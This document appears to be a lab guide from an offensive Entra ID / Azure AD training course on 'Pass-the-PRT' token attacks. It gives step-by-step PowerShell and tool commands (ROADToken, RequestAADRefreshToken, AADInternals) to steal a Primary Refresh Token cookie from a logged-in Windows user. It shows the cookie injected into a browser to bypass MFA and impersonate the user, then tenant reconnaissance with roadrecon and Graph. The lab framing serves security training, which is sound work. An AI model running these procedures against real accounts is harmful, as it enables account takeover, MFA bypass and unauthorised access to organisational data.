

# Lab 3 - Token Attacks

### Prepare a victim user with high privileges:

1. RDP and login to the Win11 VM using the user `user1@YOURDOMAIN.onmicrosoft.com` (or your other assigned user in class)
2. run `dsregcmd /status` and make sure you don't have "invalid".. fields, and that you see `AzureAdPrt : YES`
   
3. Make sure you are verified:
   1. open Edge, login to myapps.microsoft.com and **set up MFA**
   2. go to Start -> Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
      
4. if there's still an issue, restart the vm and login again

#

# Attacks

From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM

## 1. Steal-the-PRT-Cookie (a.k.a as "Pass-the-PRT" attack)

**Notes:** 
- This method will bypass MFA only if the user has **authenticated using MFA** in Windows (when logged in using WhFb) or afterwards when signed in to myapps.microsoft.com using MFA
- PRT Cookie can only be used once and its TTL is short


#### Option 1: Steal PRT Cookie using roadrecon tool

**Prep:**
Download from inside the Win11 VM [ROADToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/ROADToken.exe)
<details>
    <summary><b>Hint</b></summary>
    
   1. Use roadrecon to get a nonce
   1. Use ROADToken with that nonce
</details>

<details>
    <summary><b>Solution</b></summary>

```powershell
# Get the nonce first
roadrecon auth --prt-init

# Get a new PRT Cookie
.\ROADtoken.exe <nonce>
```
Example: 


</details>

#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool
Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

**Prep:** Download from inside the Win11 VM [RequestAADRefreshToken.exe](https://github.com/shackcrack007/hybrid-attacks-course-template/raw/refs/heads/main/labs%20(for%20course%20sessions,%20not%20part%20of%20setup)/lab-3-tokens/RequestAADRefreshToken.exe)

<details>
    <summary><b>Solution</b></summary>

```powershell
.\RequestAADRefreshToken.exe <nonce>
```

Example: 
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```
</details>


#### Option 3: Steal PRT Cookie using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:

<details>
    <summary><b>Solution</b></summary>
    
```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"

# Get the PRToken
Get-AADIntUserPRTToken
```
</details>


### Once PRT Cookie is in your possession:

It's time to steal that user identity:

1. In incognito -> Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token (JWT) in the `Data` field from RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

- if it asks for a password, it means the PRT in the victim computer is invalid: you should restart and re-login and make sure you're authenticated to Windows properly (you account is active)
**See demo video [here](stealPrtCookie.mp4)**

# Next Step - Reconnaissance

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already

# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth -r aadgraph -c "1950a258-227b-4e31-a9cf-717495945fc2" --prt-cookie $prtToken

# method 3:
$prtToken = Get-AADIntUserPRTToken
$at = Get-Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for aadgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# more info: search for the client_id here to see to which app (==client) we used to ask AT for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Get comfortable: Continue your exploration via API...

You can start with:

```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894"
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```
### Feeling comfortable? go to the next lab!